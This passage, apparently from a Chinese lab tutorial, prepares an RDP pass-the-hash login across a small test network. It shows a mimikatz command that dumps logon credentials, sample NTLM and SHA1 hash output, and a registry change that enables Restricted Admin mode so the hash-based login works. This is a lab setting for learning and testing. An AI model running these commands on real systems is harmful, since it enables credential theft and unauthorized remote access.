 在这里分别采用：

  * `Windows2012`  `192.168.135.133`
    
        被登录机器，只提供`hash`值，该环境已经关闭了防火墙，`3389`默认开启  
    

  * `Windows10` `2016长期服务版`   `192.168.135.168`
    
        登录`Windows2012`，验证`hash`登录是否能够成功  
    

  * `Windows server2019`    `192.168.135.136`

登录`Windows server2012`备用机器

  * `kali linux`  `192.168.135.138`
    
        采用`FreeRDP`登录`winserver2012`  
    

![]()image.png

### 2.2 环境准备

在这里先把`hash`拿到，由于在本地，直接用`mimikatz`获取`winserver2012`的`hash`值：

    
    
    mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt  
    

![]()image.png

在这里就获得了当前用户`crow`的`hash`信息：

    
    
      [00000003] Primary  
      * Username : crow  
      * Domain   : WIN-OE76K6VTLBR  
      * NTLM     : 570a9a65db8fba761c1008a51d4c95ab  
      * SHA1     : 759e689a07a84246d0b202a80f5fd9e335ca5392  
    

在这里需要继续设置，才可以进行`hash`登录：

    
    
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f  
    

1![]()

查看是否已开启 `DisableRestrictedAdmin `REG_DWORD 0x0 `存在就是开启：

    
    
    REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"  
    

![]()image.png

此时已开启。此时用`win10`来登录测试下：当前`winserver2012`的信息：
